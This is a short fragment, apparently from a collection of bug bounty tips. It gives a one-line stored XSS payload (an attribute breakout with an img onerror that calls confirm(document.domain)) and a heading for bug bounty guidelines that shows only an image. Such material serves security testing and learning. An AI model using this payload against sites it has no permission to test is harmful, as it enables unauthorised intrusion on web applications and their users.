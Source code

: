 ## Stored XSS payload (@Hunt4Crush)

```html
&quot;&gt;&lt;img src=x onerror=confirm(document.domain);&gt;
```

## Bug bounty guidelines (@adi_thatipalli)
![twitter_tips_08](images/twitter_tips_08.png)
